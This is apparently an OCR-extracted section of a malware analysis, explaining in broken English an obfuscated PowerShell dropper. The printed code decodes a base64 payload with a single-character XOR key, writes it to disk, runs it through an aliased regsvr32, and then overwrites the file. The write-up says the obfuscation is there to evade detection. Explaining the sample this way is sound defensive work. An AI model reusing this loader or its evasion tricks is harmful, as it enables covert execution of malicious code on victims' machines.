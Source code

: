 <h6>Once this did, this cut the first character and put on the variable which is used for check if the decoding operation has been successful and as value for decode the data (cf next block). After this, this removes the first character from the string. This declares a new alias for the execution of the charge, the encoding for later and a function for converts the data on base 64. This pushes the data on the new variable with a split (The data don't content an "!" character, this only for making harder the detection).</h6>

```csharp
$m=$data.substring(0,1);
$valcheck=[int]$m*100; #500
$d1 =$data.remove(0,1)
$d2=$d1 -split'!';
&("sal") ("las") ("regsvr32");
$encode = [Type]("text.encoding")."vALue"::"uTf8"

function Decode_Base64($database64)
{
  $str =  [Convert]::FromBase64String($database64);
  return $str
}
```
<h6>The final block of code uses an for each for parse all bytes (if splitted) or with the last sentence, we haven't a splitted byte (only a string), by this way all the data are on the first element of this (0 is first element.), this loop is so useless and is only one executed. On the same way, the value for the decoding the data have only one character and placed on the first element of the array ($tmp), in selecting $tmp[0] is equal to $m. Both operation are for making harder the detection too. After this, this allocate an array for the data, decode the data in base 64 and decode with an XOR by variable $m. This array is after encoded in UTF-8 and again decoded from base 64 for getting in return value an array of bytes which writes on a file with the path preciously defined.</h6>

```csharp
foreach($a in $d2[0])
{

  $tab=@();
  $tmp=$m.ToCharArray()
  $a=Decode_Base64 ($a);

  for($i=0;$i -lt $a."coUNT";$i++)
  {
    $tab += [char]( [Byte]$a[$i] -bxor [Byte]$tmp[$i%$tmp."coUNT"] ) # [$i%$tmp."coUNT"] equal 0 -> $tmp[0] ->  $m
  }
};
$inter=$d1."rEpLACE"(($d2[0]+"!"),$encode."GETsTRinG"($tab));
[iO.fiLe]::WriteAllBytes($path,( Decode_Base64 ($inter -replace ".{200}$")));
```

<h6>This verifies if the operation was successful, push some timers, define the argument for the execution and execute it after modify the data preciously wrote on the disk.</h6>

```csharp
if((.("gci") $path)."Length" -lt $valcheck){exit};
&("sleep") 12;
&("las") -s $path;
&("sleep") 12;
[Type]("iO.fiLe")."VAlUE"::("WriteAllLines").Invoke($path, [tYpe]("regeX")::("replace").Invoke($GUID,'\d',''))
```
